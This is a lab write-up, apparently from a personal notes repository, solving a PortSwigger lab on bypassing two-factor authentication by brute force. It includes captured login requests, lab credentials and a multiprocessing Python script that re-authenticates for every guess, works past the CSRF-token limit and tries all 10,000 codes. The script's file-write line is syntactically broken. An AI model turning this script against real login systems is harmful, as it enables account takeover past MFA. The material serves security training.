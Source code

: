 # [Lab 9: 2FA bypass using a brute-force attack](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-bypass-using-a-brute-force-attack)

## Description

This lab's two-factor authentication is vulnerable to brute-forcing. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, brute-force the 2FA code and access Carlos's account page.

Victim's credentials: `carlos:montoya`

---

## Solution

Navigate to the login page and intercept the login request with `carlos`'s credentials.

```http
POST /login HTTP/1.1
Host: ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net
Cookie: session=KNN8IMgojuPpigCLnBBYkbbCr7gs4opG
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: https://ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net
Dnt: 1
Referer: https://ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=BvqYgNlamBaPUhso5K0yFQec7BdkDhfZ&username=carlos&password=montoya
```

A `POST` request to `/login` with a cookie `session` and a body containing a CSRF token `csrf`, `username`, and `password`.

A successful response yields a 302 redirect to `/login2` with a new `session` cookie. This `session` cookie is required for the redirected request. The redirect yields the form to submit the 4-digit 2FA code, which also contains a CSRF token `csrf`.

Submit a random 2FA code to capture the submission request.

```http
POST /login2 HTTP/1.1
Host: ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net
Cookie: session=JBomLh8vcO2qpUwEWUZGhxGnLlvxfJxW
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: https://ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net
Dnt: 1
Referer: https://ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

csrf=uz1WxeSuraFP36mbB9B1RwR0EM8q1Uh0&mfa-code=1111
```

A `POST` request to `/login2` with the `session` cookie from the 302 redirect and a body containing another CSRF token `csrf` and the 4-digit 2FA code `mfa-code`.

The response from the server contains the string `Incorrect security code`.

![](images/Pasted%20image%2020210811153802.png)

Using BurpSuite Intruder, attempt a light brute force of `carlos`'s 2FA code to determine if there is any type of brute-force protection mechanism in play.

Whether the developers intended it to or not, it appears the CSRF token is acting as a form of brute force protection. After two requests, the CSRF token is invalidated by the server or expires and as a result, the 2FA code submission request is rejected.

![](images/Pasted%20image%2020210811154309.png)

To properly brute force the 2FA code, the request must contain a valid `session` cookie and CSRF token. A valid `session` cookie is granted in the 302 response to a successful username and password login and a valid CSRF tokens is picked up in the body of the 2FA code form. This means that for each 2FA code, a `POST` request must first be submitted to `/login` with `carlos`'s credentials, the `session` token must be extracted from the 302 response, the redirect should be followed, and the CSRF token `csrf` should be grapped from the 2FA login form, and `csrf` and `session` must be used in a `POST` request to `/login2` with the 2FA code.

The following script automates this process and writes an authenticated `session` cookie into a file name `$CODE.txt`. Use the `session` cookie to access `carlos`'s account at `/my-account`.

```python
from multiprocessing import Pool
import urllib3

from bs4 import BeautifulSoup 
import requests


# Disable self-signed cert warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)


def attempt_brute_force(code: str):

    # Fetch home page for CSRF
    with requests.get("https://ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net/login", verify=False) as response:
        assert response.status_code == 200 and "csrf" in response.text and "session" in response.cookies.get_dict(), "[!] Home page request for CSRF token and sessin cookie failed"
        soup = BeautifulSoup(response.content, "html.parser")
        csrf = soup.find("input", attrs={"name": "csrf"})['value']
        session_cookie = response.cookies['session']

    # Login as carlos and retrieve the session cookie and CSRF token
    response = requests.post(
        url="https://ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net/login",
        data={"username": "carlos", "password": "montoya", "csrf": csrf },
        cookies={"session": session_cookie},
        verify=False,
        allow_redirects=False
    )
    assert response.status_code == 302 and "session" in response.cookies.get_dict(), "[!] Error retrieving session cookie after login"
    session_cookie = response.cookies['session']

    response = requests.get(
        url="https://ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net/login2",
        cookies={"session": session_cookie},
        verify=False
    )
    assert response.status_code == 200 and "csrf" in response.text, "[!] Error retrieving CSRF token"
    soup = BeautifulSoup(response.content, "html.parser")
    csrf = soup.find("input", attrs={"name": "csrf"})['value']

    # Submit carlos's 2FA token
    response = requests.post(
        url="https://ac501ff81fb5d65f80772a9a00f3003f.web-security-academy.net/login2",
        data={"mfa-code": code, "csrf": csrf },
        cookies={"session": session_cookie},
        verify=False,
        proxies={"https": "http://127.0.0.1:8080"}
    )
    assert response.status_code == 200
    if "Incorrect security code" not in response.text:
        with open(f"{code}.txt", "a") as f:
			f.write(f"[*] Session cookie: {session_cookie}"")
    soup = BeautifulSoup(response.content, "html.parser")
    csrf = soup.find("input", attrs={"name": "csrf"})['value']


if __name__ == "__main__":
    with Pool(5) as p:
        p.map(attempt_brute_force, (str(i).zfill(4) for i in range(0, 10000)))
```
